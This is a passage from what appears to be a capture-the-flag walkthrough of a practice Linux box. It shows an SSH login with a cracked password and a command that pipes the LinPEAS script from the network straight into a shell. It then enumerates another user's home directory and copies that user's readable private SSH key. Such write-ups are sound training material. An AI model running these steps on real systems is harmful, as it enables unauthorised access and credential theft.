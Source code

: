 ```
As you can see we’ve successfully cracked the password which is **armando**


#### 7. Now that we’ve got the password we can login via SSH by typing: 
```
ssh jan@10.10.52.25
password: armando
```
We got in!

#### 8. For privilege escalation and system enumeration I’ve used LINPEAS due to its color coding output it gives for better reading. We can get it from this command: 

`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

> Make it an executable then run linpeas.sh and output it to a file: 
`./linpeas.sh -a > linlog.txt`

After running we’ve found some vulnerable file paths we can utilize:
```
[+] Files inside others home (limit 20)
/home/kay/.profile                                                                                 
/home/kay/.viminfo
/home/kay/.bashrc
/home/kay/.bash_history
/home/kay/.lesshst
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
/home/kay/.bash_logout
/home/kay/.sudo_as_admin_successful
/home/kay/pass.bak
```
We can see that the rsa keys and the pass.bak files are in kay’s folder path but unfortunately we don’t have access to view as jan.

#### 9. Upon looking in kay’s directory we can see that she has an ssh key that we can access 
```
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```
Viewed the key, copied the text and pasting it into my own file kayrsa.txt to login via ssh key, but failed due to the key needing a passphrase:
```